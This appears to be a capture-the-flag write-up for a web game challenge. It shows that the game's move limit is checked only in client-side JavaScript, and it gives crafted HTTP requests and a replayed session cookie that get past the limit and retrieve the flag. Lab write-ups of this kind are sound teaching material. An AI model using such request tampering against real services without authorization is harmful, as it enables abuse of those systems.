 The challenge is about the stick game, you have to remove stick (1-3) turn by turn and the person how remove the last(s) one(s) loose, I first tried to legit play the game the issue is since the bot it starting he has 100% chances to win.

After checking the code we can see that the check for the max number of sticks (3) is checked localy :

```javascript
async function playTurn() {
  const playerChoice = document.getElementById("player_choice").value;
    if (!playerChoice || isNaN(parseInt(playerChoice)) || playerChoice < 1 || playerChoice > 3 ) {
      showAlert("Please select a number between 1 and 3.");
      return;
}
```
So i craft a request where i remove `12` sticks so it left `3` (bot play first and remove 3 (20-3=17).

```
POST /play HTTP/1.1
Host: chall3.midnightflag.fr:12491
Content-Length: 20
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://chall3.midnightflag.fr:12491
Referer: http://chall3.midnightflag.fr:12491/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJnYW1lIjoxN30.Z_qGGA.XhU1chxojYQkg4Y6MBtF3xg-xIk
Connection: keep-alive

{"player_choice":12}

---

HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 68
Vary: Cookie
Set-Cookie: session=eyJnYW1lIjozfQ.Z_qHkA.B9yjgyYgCNVCMDdmg14C7F6Ye1A; HttpOnly; Path=/

{"board":["|","|","|"],"bot_move":2,"game_ended":false,"win":false}
```
We know just have to remove two so it let him one and he loose. To do that get the cookie given and replay it to resume party.

```
POST /play HTTP/1.1
Host: chall3.midnightflag.fr:12491
Content-Length: 19
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://chall3.midnightflag.fr:12491
Referer: http://chall3.midnightflag.fr:12491/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJnYW1lIjozfQ.Z_qHkA.B9yjgyYgCNVCMDdmg14C7F6Ye1A
Connection: keep-alive

{"player_choice":2}

---

HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 82
Vary: Cookie
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; HttpOnly; Path=/

{"board":["|"],"flag":"MCTF{FAKE_FLAG_FOR_TESTING}","game_ended":true,"win":true}
```





